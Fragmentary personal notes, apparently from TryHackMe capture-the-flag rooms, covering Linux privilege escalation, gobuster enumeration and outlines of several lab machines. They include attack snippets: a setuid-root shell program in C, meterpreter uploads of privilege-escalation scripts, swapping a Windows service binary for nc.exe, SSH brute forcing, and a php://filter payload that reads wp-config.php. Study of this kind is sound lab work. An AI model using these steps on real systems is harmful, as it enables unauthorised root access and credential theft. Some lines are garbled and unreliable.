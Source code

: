 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
=> hint/notes
=> network
* Another alternative to this program, is to create a suite file with a copy of bash.

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

<hr>

## Forced Browsing

* https://tryhackme.com/room/webenumerationv2
  * Gobuster options.
  * -k for ssl errors
* Gobuster DNS/VHosts
* Useful wordlists
* nmap `-n` redo
* add a warning + 64th
* `cat /usr/share/wordlists/dirb/extensions_common.txt | tr '\n' ','`
* `gobuster -u` for vhost
* `gobuster vhost -u http://webenum.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t50 --append-domain` (in new versions of gobuster, false by default)
* NOT FINISHED https://tryhackme.com/room/webenumerationv2

> While participating in rooms on TryHackMe, virtual hosts would be a good way to hide a completely different website if nothing turned up on your main port 80/443 scan.

<hr>

## Overconfidence

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/easyctf 🐍🐍🐍

* `python2 simple.py`
* oh gosh, volatily + `pip install --upgrade setuptools` https://stackoverflow.com/questions/31719816/pip-fails-to-install-anything-error-invalid-command-egg-info
* `print "[+] Specify an url target"`

--- https://tryhackme.com/room/cowboyhacker

* nmap
* FTP exposed
* Hydra ssh
* SUID

--- https://tryhackme.com/room/lazyadmin 🐍🐍🐍

* nmap
* gobuster
* ...

--- https://tryhackme.com/room/startup

* nmap
* gobuster
* ftp
* file upload
* wireshark
* crontab

Others

* If FTP is asking for a password, press enter
* FTP do not seem to work with path (to upload with put, but it works if you start FTP in the directory where the file is)
* Press F12 to go back to penelope UI. You can use upload/download. Go back with `interact 1`
* wireshark `.pcapng`. Then right-click on interesting packets, and click on "follow TCP Stream"
* crontab for a user (`ls /var/spool/cron/crontabs/root` root). https://github.com/DominicBreuker/pspy
* Proper name for this section whelp 😭

--- https://tryhackme.com/room/allinonemj 🐍🐍🐍

* Kali right-arrow
* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)